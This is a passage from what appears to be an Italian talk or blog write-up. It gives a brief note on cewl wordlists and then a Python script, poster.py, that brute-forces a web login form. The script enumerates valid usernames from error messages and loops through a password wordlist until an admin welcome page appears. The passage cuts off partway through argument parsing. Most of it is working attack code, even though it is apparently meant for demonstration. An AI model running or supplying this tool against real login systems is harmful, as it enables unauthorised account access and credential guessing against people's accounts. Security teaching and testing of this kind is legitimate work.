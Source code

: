 _cheater note:_ admin1234 non sarebbe stato incluso nel dizionario e non avevo
tempo di implementare nello script, una funzione di permutazione delle parole
trovate con l'aggiunta di numeri. Mi serviva per far vedere cewl durante il
talk. L'aggiunta della funzionalità in poster.py è abbastanza semplice.

{%highlight python%}
#!/usr/bin/env python

import requests
import sys, getopt

def brute_username(url, wordlist, domain):
    print '[+] bruteforcing usernames appending ' + domain + ' as domain'

    lines = [line.rstrip('\n') for line in open(wordlist)]
    for l in lines:
        r = requests.post(url, data={'email':l+'@'+domain, 'password':'a very complex password', 'commit':'Login'})
        #if l+'@'+domain+' doesn' in r.text:
            # print 'yeah'
        if 'Incorrect Password!' in r.text:
            print l

def brute_password(url, wordlist, domain, username):
    print '[+] bruteforcing password for ' + username +'@'+domain
    lines = [line.rstrip('\n') for line in open(wordlist)]

    for l in lines:
        r = requests.post(url, data={'email':username+'@'+domain, 'password':l, 'commit':'Login'})
        if "Welcome, Admin" in r.text:
            print username + '@' + domain + ':' + l
            sys.exit(0)



def main(argv):

    url = ''
    wordlist = ''
    brutelogin = None
    brutepassword = None
    domain = ''
    username = ''

    try:
        opts, args=getopt.getopt(argv, "hu:w:LPd:U:", ["url=","wordlist=", "domain=", "username="])
    except getopt.GetoptError:
        print 'poster.py -u <url> -w <wordlist file> -d <account domain> [-L|-P]'
        sys.exit(-2)

    for opt, arg in opts:
        if opt == '-h':
            print 'poster.py -u <url> -w <wordlist file>  -d <account domain> -U <username to use>[-L|-P]'
            print '\n\t-L: brute login name using the given wordlist'
            print '\n\t-P: brute passwords using the given wordlist'
            sys.exit(1)
        elif opt in ("-u", "--url"):
            url = arg
        elif opt in ("-w", "--wordlist"):
            wordlist = arg
        elif opt == '-L':
            brutelogin = True
        elif opt == '-P':
            brutepassword = True
        elif opt in ("-d", "--domain"):
            domain = arg
        elif opt in ("-U", "--username"):